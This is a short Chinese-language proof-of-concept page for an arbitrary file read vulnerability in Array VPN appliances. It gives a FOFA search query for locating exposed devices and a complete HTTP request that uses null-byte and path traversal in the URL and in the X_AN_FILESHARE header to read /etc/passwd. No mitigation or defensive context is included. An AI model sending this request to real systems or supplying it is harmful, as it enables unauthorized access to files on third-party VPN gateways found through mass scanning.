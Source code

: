 ## Array VPN任意文件读取漏洞

## fofa
```
product="Array-VPN"
```


## poc
```
GET /prx/000/http/localhost/client_sec/%00../../../addfolder HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X_AN_FILESHARE: uname=t; password=t; sp_uname=t; flags=c3248;fshare_template=../../../../../../../../etc/passwd
Dnt: 1
Upgrade-Insecure-Requests: 1
Connection: close

```
![image](../../images/a6915f3f-2242-4d1d-b3a3-9ff452439cbc.png)
